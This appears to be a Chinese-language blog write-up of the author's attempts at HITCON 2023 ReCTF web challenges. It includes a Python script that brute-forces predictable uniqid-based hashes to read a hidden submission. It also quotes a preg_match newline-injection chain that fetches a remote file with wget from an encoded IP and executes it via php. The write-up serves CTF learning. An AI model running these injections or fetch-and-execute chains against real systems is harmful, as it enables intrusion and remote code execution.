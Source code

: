```yaml
---
title: HITCON-2023-ReCTF
date: 2023-08-27 20:50:27
tags:
categories:
- [CTF]
cover:
- cover.jpg
---
```

## 緣起

上周被公司派去參加了 hitcon 2023，看到各路大神、後起之秀的超高水準研究以及那充滿夢想(?)的眼神，
想起自己小時候其中一個夢想就是挖洞拿獎金達到財富自由，工作後慢慢忘記的 hacker 熱情又被點燃了。
由於在台上的講者們都曾是 ctf 王，打 ctf 似乎是一個很好的鍛鍊方式，於是我打算如法炮製，試著打打看，看一年後我會不會搖身一變成挖洞高手，實現夢想👍👍。

在這次 hitcon 2023 我玩了 devcore wargame 和 rectf，{% post_link DEVCORE-Wargame-2023 %} 的部分只解了一題水題...(儘管我仍然花了 5 個小時)，rectf 因為開放時間比較久，費盡洪荒之力總算是解了兩題。在這邊放上 write up 和簡單的心路歷程，記錄一下。

## ReCTF
顧名思義，這個活動是將從前 hitcon ctf 出過的題目進行復刻。

### papapa
{% asset_img papapa-1.png 450 挖勒 %}
一進來頁面就長這樣，啥 input 都沒有，看了 cookie 感覺也沒能控制的點，我無言了...。
通靈了一下子，決定爬文搜 papapa ctf，發現是 hitcon 2016 時 orange 出的題目([連結](https://peterli.website/hitcon-ctf-2016-papapa-%E5%BB%BA%E7%BD%AE%E7%92%B0%E5%A2%83/))，並翻了 orange github 的出題 src，原來解題的關鍵在憑證...。
{% asset_img papapa-2.png 450 %}

直接 burpsuite 改 host，拿到 flag `FLAG{Nw_u_F0un6_myh05t}`
{% asset_img papapa-3.png 450 %}

但其實這 flag 傳上去是錯的，窩操，傻住了一下，搞不好是藏在其他頁，重新走整個流程再試一次。
{% asset_img papapa-4.png 450 %}
這次真的拿到了 `hitcon{n0w_4y_h4v3_th3_f14g}`，原來 flag 不是在 `/index.html` 是在 `/`，還好不是藏很深(呼氣)。

### yeeclass
{% asset_img yeeclass-1.png 450 %}
這個題目很佛心的給了你整個 source 包括 docker compose，所以只要 trace code 就好，
我原本是這樣想的...，但我前一小時真的看不出洞。
本以為是打 sql injection，但整份 code 都使用 POD execute，應該不是這問題。
後來才發現，submission.php 中有一個判斷失誤，`PERM_TA` 為 1，`_SESSION`不存在時，其在 boolean 的判斷會當成 0 的樣子，可以繞過拿到 FLAG 的清單 (`homework=1`)
{% asset_img yeeclass-2.png 450 %}

於是我把 cookie 清掉再讀一次網頁，繞過了，可惜這邊還是看不到 flag 內容
{% asset_img yeeclass-3.png 450 %}

同時 submission.php 中看到了這一段，我突發奇想: "是不是有辦法 userclass 沒設定但 userid 設定成 `flagholder`"，這樣我就有拿的到 hash 去存取 flag 頁面了？！
``` php
<?php foreach ($result as $row) { ?>
<tr>
    <?php if ((isset($_SESSION["userid"]) && $_SESSION["userclass"] >= PERM_TA) || $row["userid"] == $_SESSION["userid"]) { ?>
    <td><a href="submission.php?hash=<?= $row['hash'] ?>"><?= $row["name"] ?></a></td>
```
於是我轉向 `index.php`，查了一堆資料想了各種可能 (e.g. HPP、race condition)，想破頭了覺得沒辦法做到。
``` php
// 邏輯大概是這樣，一氣呵成，看不出破綻
    $login_query = $pdo->prepare("SELECT * FROM user WHERE username=?");
    $result = $login_query->fetch(PDO::FETCH_ASSOC);
    $_SESSION["userid"] = $result["id"];
    $_SESSION["username"] = $result["username"];
    $_SESSION["userclass"] = $result["class"];
```
最後我破防了，去看出題者的說明，發現要利用 uniuid 直接拿時間戳產生的特性，推出當初用來算 hash 的 uid，學到了...，因為從上一步的繞過，我得到了 flag 的提交時間，可以寫 exploit 了。
exploit 基本上就是參考 php source uniuid 的寫法，其他比較花時間的部分，大概就是想辦法把日期時間轉換成 unixtimestamp 並且 parse 成對應格式，以及一些 POC 的基本驗證了 (我一開始還 parse 錯)
``` python
import http.client
import hashlib
# target url
url = 'rectf.hitcon2023.online'
# The flag submission time
sec = 1692158975
usec = 584096

for  i in range(300,1,-1):
    flag_submit_id = f"flagholder_{sec:x}{usec-i:x}"

    hash = hashlib.sha1(flag_submit_id.encode()).hexdigest()
    print(f"Testing {flag_submit_id}")

    conn = http.client.HTTPConnection(url, 30203)
    # conn = http.client.HTTPConnection(url, 8210)
    conn.request('GET',f'/submission.php?hash={hash}')
    r2 = conn.getresponse()
    data2 = r2.read()
    if(data2 != b'Submission not found.'):
        print(f'Successfully get flag with {hash}')
        print()
        print(data2)
        break
    conn.close()
```
Reference:
- https://stoneapp.tech/cavern/post.php?pid=948

### babyfirst
<script src="https://gist.github.com/orangetw/cb3487e47d7aaaea4692.js"></script>
(應該沒人認真看這篇，我偷偷 host orange 的 gist 應該不會有人發現吧？)

找資料發現 `preg_match` 有個 `\n` 的 mismatch 洞之後，測了一兩個小時，
確定只能這樣串 `$args = ['AAA\n','mycmd','my parameter\n','mycmd']`，沒其他特殊字元可以繞過了。

串指令的路線
1. 寫入 base64 檔案 + decode base64 檔案 + 執行檔案
   - 如何寫入？狗到的方式都是 `echo xxx > file`，有 `>`
   - `base64 -decode` 有 `-`
2. 下載檔案 + 執行檔案
   - 如何下載？首先 ip `xxx.xxx.xxx.xxx` 就有 `.`

感覺都不行，我低下的想像力不知道怎麼辦了。偷偷看了一下 orange 的 writeup，確定 wget 可以。於是我又想了一個小時，靈機一動 ip 有 decimal 形式，`wget 2130706433(127.0.0.1)`成功下載檔案。
但 `wget` 抓下來的檔名是 `index.html`，就算 302 轉向到別的網頁一樣，又再卡住一次。
爬文幾乎每篇講 linux 下載檔案的，都是用 curl、wget。而 curl 也是會用到特殊符號。mv 也要輸入檔案名 `index.html`

在爬了一個多小時的文之後，果斷去看 writeup🥹。
```
mkdir orange
cd orange
wget HEXED_IP
tar cvf payload orange
php payload
```
看了我還是不懂，php 怎麼可能執行 tar 後的檔案，實際試了一次後，還真的可以直接執行😱，為什麼會有這種 feature？！

除此之外還有
- wget 302 重導向到 ftp，可以解決 index.html 預設檔名的問題。
- busybox ftpget
- twistd telnet

這些解法確實是超出我的理解範圍了。

Reference:
- https://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97

### 其他題
其他題我還沒打，網站就關了，88。

### 心得

#### papapa
資訊收集的部分要再細心一點，都用 nmap 去掃這網站的 ip 了，卻沒注意到憑證這個部分。
另外意外的收穫就是從 orange 架這題目的 src，學到了 apache 的 virtual host 這個 feature，
原來有這種酷東西，感覺架網站時很有用，並且底層是檢查 http header 中的 `host:` 進行轉送的。
Reference:
- https://github.com/orangetw/My-CTF-Web-Challenges#papapa
- https://blog.51cto.com/milenovo/1698875
- https://httpd.apache.org/docs/2.4/vhosts/name-based.html

#### yeeclass
這一個我感覺就差一點，我因為原本的想法失敗就放棄了，但我認為我是有能力觀察到 uniuid 那邊的貓膩的，
這邊沒有堅持住，搥牆，要改進才行。
在說做不到之前，必須好好確認是不是還有其他可以利用的線索還沒觀察到的。

#### babyfirst
看完 writeup 後，我難得慶幸還好我有看，因為我真的想不出來這幾招...學到了。
還有一個原因可能是我對 linux 的 core util 太不熟了，希望未來會慢慢改善。


